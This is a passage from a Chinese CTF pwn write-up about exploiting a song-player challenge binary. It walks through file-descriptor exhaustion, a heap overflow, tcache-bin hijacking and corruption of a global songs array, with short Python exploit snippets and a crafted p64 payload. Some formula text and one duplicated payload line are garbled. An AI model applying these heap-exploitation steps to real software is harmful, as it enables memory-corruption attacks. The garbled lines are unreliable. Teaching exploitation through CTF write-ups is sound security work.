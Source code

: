 #### <a class="reference-link" name="%E5%88%9B%E5%BB%BA%E5%8F%AF%E6%8E%A7Chunk"></a>创建可控Chunk

利用`open`函数的漏洞，对于`open`函数，我们可以输入一个目录，它也将会成功的打开而不会返回失败，且这个目录允许添加多个`/`。

[![](./img/203685/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_610_/t01d62a64ad1a8129d1.png)

此处存在：
<li>
`path`成员和`fd`成员直接相邻，且在向`path`成员写值时存在逻辑，当且仅当`path`成员的末尾是`n`时，才会将其替换成`x00`否则不作任何操作！</li>
1. 程序限定`song_count`的上限是`0x31`，而`fd`处存放的是文件描述符，而这个文件描述符将会由`3`开始递增，当其递增到`0x2E`时，若`path`中没有`.`，将会把这个文件描述符替换成NULL。
于是我们的利用脚本如下：

```
for i in range(3,0x2F):
    import_song(sh,'Animal/'.ljust(0x18,'/'))
```

[![](./img/203685/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_496_/t01c3ff1f1674caa89f.png)

**⚠：此处还有一点需要注意！正如我们在程序逻辑中说明的那样，一旦我们对这个歌曲执行了释放操作，程序将关闭fd指针处的文件流，而在此处，这意味着`stdin`将会被关闭，因此我们必须防止其被释放！**

#### 劫持`Tcache Bin`

我们发现`Animal/blahblah.txt`将会申请`0x660`大小的`chunk`，而`Animal/animal.txt`将会申请`0x3B0`大小的`chunk`。那么我们若先申请一个`0x660`大小的`chunk`，再申请一个`0x3B0`大小的`chunk`，然后依次释放，然后使用那个堆溢出漏洞，我们将可以直接劫持`Tcache Bin`结构。

那么我们首先构造如下`Payload`：

```
import_song(sh,'Animal/blahblah.txt')  # 45
import_song(sh,'Animal/animal.txt')    # 46

play_song(sh,45)
play_song(sh,46)

remove_song(sh,45)
remove_song(sh,46)
```

#### <a class="reference-link" name="%E5%8A%AB%E6%8C%81songs"></a>劫持songs

接下来我们不要忘了，**在程序`malloc`之后，会随即调用`memset`函数进行`chunk`的清空，这本是防止遗留数据被非法读取的保护逻辑，但在此处，反而可以成为我们利用的后门。**若我们将`Chunk 46`的`fd`指针篡改为`A`，当我们从`Tcache`中取回`Fake_chunk`时，程序将会擦除`A`到`A + 0x3B3`之间的所有数据。那么我们期望它擦除后恰好有一个`song`呈现仅`fd`和`path`被擦除的状态。这其实很好计算 $mathbf{0x3B3} = 16 times mathbf{0x38} + 24 + mathbf{0x18} + 3$ 若我们指定`A`是`songs[0].dir`，那么，`songs[17]`就是符合条件的`song`。

构造如下`Payload`：

```
play_song(sh,44,-1,'x41' * 0x660 + p64(0) + p64(0x3C0) + p64(0x404080))
       play_song(sh,44,-1,'x41' * 0x660 + p64(0) + p64(0x3C0) + p64(0x404080))
play_song(sh,43)

fake_songs  = ......

play_song(sh,18,fake_songs)
```
